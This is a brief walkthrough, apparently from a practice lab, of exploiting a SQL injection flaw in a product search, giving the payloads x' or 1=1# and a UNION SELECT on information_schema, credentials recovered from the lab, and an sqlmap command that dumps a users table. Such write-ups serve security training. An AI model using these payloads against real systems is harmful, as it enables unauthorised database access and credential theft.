

Let's through in a query that will not give any result
x' or 1=1#
if this is successful it should return all of the products in the DB

We got all the product which means it's vulnerable to sql injection
When we run this command:Tanjyoubi Sushi Rack' union select null,null,null,table_name from information_schema.tables#

We got the user & password
User: takeshi
Password: onigirigadaisuki
SQLmap
Command:sqlmap -r req3.txt -T injection0x03_users --dump